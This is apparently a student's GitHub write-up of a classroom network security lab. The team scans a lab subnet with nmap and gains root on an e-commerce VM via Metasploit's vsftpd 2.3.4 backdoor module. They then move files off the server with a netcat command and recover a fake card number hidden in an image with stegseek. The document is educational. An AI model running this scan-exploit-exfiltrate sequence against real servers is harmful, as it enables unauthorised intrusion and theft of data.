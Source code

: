 # Network Security Injection Project

In this project I and other team members attacked a server using various security tools and tactics. Through this project, we learned how security breaches occur and how to defend systems and networks.

During this endeavor we used two virtual machines in a VLAN. The first was a Kali box and the second was an ecommerce server. Using Kali, we attacked the server and tested its defense mechanisms. While completing the exercise, we were to assume that the e-commerce server was not visible and therefore we did not attempt to log in.

## Injection Number 1

In injection one we were tasked with creating a security policy and introducing the team to the instructor. The security policy and team introduction we wrote can be found here: https://github.com/TristanJRogers/Network-Security/blob/main/Injection%201.docx 

## Injection Number 2

In injection two the team and I were tasked with the following. 

1. Scan the network to find find the IP address of the e-commerce server
2. Scan the e-commerce server and detect the version of the services that were running

For task 1 the team and I used NMAP to scan the entire subnet. In the picture below you will see a hit for 192.168.1.1 which was most likely a router and a hit for 192.168.1.220. We were able to identify 192.168.1.220 as the e-commerce server due to port 80 and port 3306 being open along with the url given in the scan.

![image](https://github.com/user-attachments/assets/22d9fa04-afaa-47dc-bad0-0d3e0be807d4)

For task 2 we used the command nmap -sV on the e-commerce servers IP to display the version of all services open on the e-commerce server. 

![image](https://github.com/user-attachments/assets/0e3b9e18-2af9-4d05-b8a8-42ea459a58e7)

## Injection Number 3

In injection three the team was tasked with breaking into the server using Metasploit

Using the versions of services running on the e-commerce server, we saw that the FTP service it was running had a backdoor vulnerability. We used the (unix/ftp/vsftpd_234_backdoor) exploit on the e-commerce server and were able to gain a access. 

![image](https://github.com/user-attachments/assets/1c4a3094-ca7b-4c50-9f62-5a347c6a85c9)

Finally, to prove we had root access we used the commands whoami, id, pwd, and ls. See the output below. 

![image](https://github.com/user-attachments/assets/1c4ddbf0-5961-4f41-ba46-b0869da00cff)

## Injection Number 4

In injection number four we were tasked with tasked with transferring three files in from the e-commerce server to our kali machine via Netcat. 

We used the command "nc -v 192.168.1.7 69 <insert file name>" on the ecommerce server and command nc-v -l -p69 > <insert file name> on the kali machine

E-commerce server

![image](https://github.com/user-attachments/assets/28e2c63e-8225-42e2-807c-e403169fb9f2)

Kali machine

![image](https://github.com/user-attachments/assets/d6e0b2df-d472-4d74-ab7b-aa38863df461)

For the final results you will see that in the screenshot below, the files were successfully transferred to our kali machine. 

![image](https://github.com/user-attachments/assets/0585b8fc-a4f7-4c6a-97e5-13a897a44ac0)

## Injection Number 5

In injection number five we were to find a "treasure" within the image file we transferred over to our kali machine. The instructions we were given were located in a file that was encrypted using an RSA algorithm(0x8F6568A3-pub.asc.encrypted.txt).

Here you can see where we unencrypted the file using www.pgptool.org

![image](https://github.com/user-attachments/assets/0c62573f-f7c2-43dc-a9b2-07d3b7db45a2)

As you can see, the instructions indicated that the treasure was hidden using steganography

We tried to use steghide and a password list to find the hidden treasure but it failed. We then began to research and found Stegseek. We then used stegseek with a password list and were finally able to find the hidden treasure: a (fake) credit card number.

![image](https://github.com/user-attachments/assets/a108aa18-a9a1-4a7d-a72d-c8b1f1201d70)

![image](https://github.com/user-attachments/assets/8690dfe1-aac0-4504-9691-3debc9f54f09)

![image](https://github.com/user-attachments/assets/daa6707a-d087-4c55-b918-34b2e3328530)

The full injection five write up can be found here: https://github.com/TristanJRogers/Network-Security--Injections-Project/blob/main/Injection%205.docx 

## Tools/Software Used

www.pgptool.org

Steghide

Stegseek

Metasploit

Netcat

NMAP

Kali Linux

Steganography

RSA Encrption






















